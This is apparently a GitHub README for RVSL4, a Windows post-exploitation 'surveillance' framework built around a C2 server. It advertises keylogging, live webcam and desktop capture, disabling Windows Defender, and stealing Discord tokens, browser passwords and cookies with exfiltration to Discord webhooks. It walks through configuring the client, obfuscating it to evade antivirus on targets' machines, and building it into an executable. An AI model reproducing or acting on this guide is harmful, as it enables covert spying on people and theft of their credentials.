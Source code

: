# RVSL4 - Modular Windows Post Exploit Framework

# Description

RVSL4 is a modular framework designed for electronic surveillance actions on computers running the Windows OS. It enables flexible and customizable post-exploitation, offering a set of tools to monitor activities and collect information remotely. RVSL4 is intended for surveillance purposes only and must be used in compliance with applicable laws and regulations.

RVSL4 does not support multi-threading.

# ADDONS INTERNES

    - DESKTOP : Opens a server to receive the client's desktop stream in real-time.
    - WEBCAM : Opens a server to receive the client's webcam stream in real-time. (60 FPS)

# ADDONS EXTERNES

    - KLOG : Tracks keystrokes to analyze user interactions.
    - AUTOSCP : Automatically captures desktop screenshots at adjustable intervals and exfiltrates them to Discord with webhook.
    - DESKSCP : Captures desktop and webcam screenshots and exfiltrates them to Discord with webhook.
    - DWINDEF : Disables Windows Defender.
    - STLINFOS : Steals information and Discord tokens with Creal.

# USAGE

Start the C2 server with the following commands :

    python rvsl4.py <IP/DDNS> <PORT>
    Example : python rvsl4.py sha78221662145822.ddns.net 5555

![2](https://github.com/user-attachments/assets/f0179195-733e-4332-9c8b-04dfaa926c20)

Edit connection informations in the client file (cli.py) with the same IP or DDNS used to start the server to ensure your client connects correctly to your RVSL4 C2 server.

![3](https://github.com/user-attachments/assets/742a4f1a-07b4-41cb-82ac-382315cc6dc1)

# OBFUSCATION

It is recommended to obfuscate your client file before building it to bypass antivirus detection. 
There is no single best obfuscation technique as it depends on the antivirus software used by your targets and the strength and method of your obfuscation.
There are many ways to obfuscate code, but here is a basic approach.

- With python modules

      pip install pyarmor            https://pypi.org/project/pyarmor/
      pip install PyObfuscator       https://pypi.org/project/PyObfuscator/

- With web tools

      https://pyobfuscate.com/
      https://development-tools.net/python-obfuscator/
      https://freecodingtools.org/py-obfuscator
      https://pyob.oxyry.com/

- With Github ressources

      https://github.com/billythegoat356/Hyperion
      https://github.com/billythegoat356/Kramer
      https://github.com/spicesouls/onelinepy
      https://github.com/davidteather/python-obfuscator

# BUILD

Once obfuscated, build your client file into an executable (cli.exe). Command to build via pyinstaller : pyinstaller --onefile --windowed FILE_NAME.py

![6](https://github.com/user-attachments/assets/2de6aaf8-0a12-4131-96e3-83cfe54d9e00)
![9](https://github.com/user-attachments/assets/bd435dfa-870b-4aa3-8dcf-b73e701adfd6)

After building, go to the 'dist' directory where your cli.EXE executable will be located.
Follow the same building and obfuscation procedure if you want to use EXTERNAL ADDONS, so they can be uploaded and launched directly from the C2.

![10](https://github.com/user-attachments/assets/344342f0-5ca7-4c2c-b084-076bef03aa8d)
![11](https://github.com/user-attachments/assets/bad05ac7-a7c4-4ccb-8ea3-aadbae7fe334)

# COMMANDES

        //  exec            ->  Run external command or local file 
        //  start           ->  Start file from client machine (exe, txt, pdf, odt, etc..)
        //  check           ->  Check if client machine is connected to internet                                             
        //  browse          ->  Open an website on client machine browser
        //  download        ->  Download file from client machine 
        //  upload          ->  Upload file to client machine  
        //  kill            ->  Kill the connection with client machine 


        //  pwd             ->  Print working directory in client machine 
        //  scp             ->  Copy files to client with SSH
        //  route print     ->  Show Routes Tables
        //  whoami          ->  Get name of client machine (LINUX ONLY)
        //  hostname        ->  Show hostname of client machine
        //  arp -a          ->  Show all current protocol statistics and TCP/IP connections
        //  ipconfig /all   ->  Show ip configurations from client machine (ipv4, ipv6, mac, etc..)
        //  getmac          ->  Show mac addresses of client machine
        //  netstat         ->  Show all actives connections from client machine 
        //  uname -a        ->  Show kernel of client machine  [ONLY LINUX GNU]  
        //  systeminfo      ->  Show all informations of client machine    (os version, desktop name, etc..)

        // webcam           ->  Remote webcam [DIRECT 60FPS] [NO GUI]
        // desktop          ->  Remote desktop [DIRECT 60FPS] [NO GUI]

        // dwd              ->  Disable Windows Defender AV [Real-Time Protect]
        // stlinfos         ->  Steal discord token | browser passwords | cookies | mail and others informations [Webhook ONLY]
        // deskscp          ->  Steal session name | desktop name | ip | camera and desktop screenshot [Webhook ONLY] [AUTO-MODE AVAILABLE]
        // autoscp          ->  Take a desktop screenshot every minute [Webhook ONLY] [AUTO-MODE]
        // klog             ->  Enable keylogger server


https://github.com/user-attachments/assets/b17b45fa-4e8d-47e0-a9e6-9901eab7d3b3

# ABOUT 📑

Buy me a Coffee ☕️ ETH ARBITRUM ONLY 0xCeB10eEC23826DdCb14397dB855B9302D36822bE
If you would like to contribute to the development of the project, please contact me on my Telegram @makaki22 

MIT License

Copyright (c) [2024] [SUPERPOSE INT]

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:


